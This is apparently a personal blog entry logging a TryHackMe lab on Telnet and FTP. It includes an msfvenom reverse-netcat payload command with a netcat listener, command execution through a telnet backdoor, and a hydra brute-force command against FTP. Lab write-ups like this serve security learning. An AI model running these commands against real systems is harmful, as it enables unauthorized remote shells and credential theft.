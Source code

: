 ```yaml
---
title: Day 13
date: 2022-04-26
layout: post.njk
---
```


{{ page.date.toDateString }}

Today I'm starting on the Telnet section of the [Network Services Module](https://tryhackme.com/room/networkservices). I know Telnet is pretty old and not used very often, but I always think knowing more is better than knowing less.


Just like I thought:
> "Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations."

I ran an nmap scan against the target, but got no open ports up when I just ran `nmap -sS <IP>`. It only ran it against the first 100 ports so I bumped it to 10000 and got one: `Port 8012`. Service is unknown.

When I telnet to it I get the message:
> "SKIDY'S BACKDOOR"
But it doesn't appear that any commands can be run.

So I followed the instructions to set up the `tcpdump` on the attack box via: `sudo tcpdump ip proto \\icmp -i eth0`. This essentially is saying listen for ping requests on the eth0 interface.

I then was able to run a ping on the connected host using the `.RUN` command: `.RUN ping <ip> -c 1` and I recieved the ping request. This means I can execute commands on the remote system.

I then used `msfvenom` to create a specific payload to get a shell on the remote machine. `msfvenom -p cmd/unix/reverse_netcat lhost=<ip> lport=4444 R`. The payload creates a netcat connection back to your local machine so I justed needed to set up a netcat listener locally on the port I specificed in the msfvenom command. `nc -lvp 4444`

After running that I run the payload on the remote machine and I got a connection back! a simple ls revealed `flag.txt`.

Finally I moved onto the FTP section. The enumeration was pretty simple I ran `nmap -sT <ip>` and it came back with two ports. There was a webserver on port 80 and ftp running on 21. I ran `nmap -sV <ip> -p 21` to get mroe info on the FTP service. I was then able to login anonymously: `username: anonymous, password: <blank>` There was a file in there signed by Mike.

To get in I used hydra to brute force the password while guessing that there is a username `mike`. The command was: `hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp`

It was able to brute force the password quickly and gave me a password of...`password`. I was then able to login via ftp using that username and password to retrieve the flag.


Overall it was a module and I really enjoyed getting to do some exploitation. Looking forward to [Netowork Services 2](https://tryhackme.com/room/networkservices2) tomorrow!

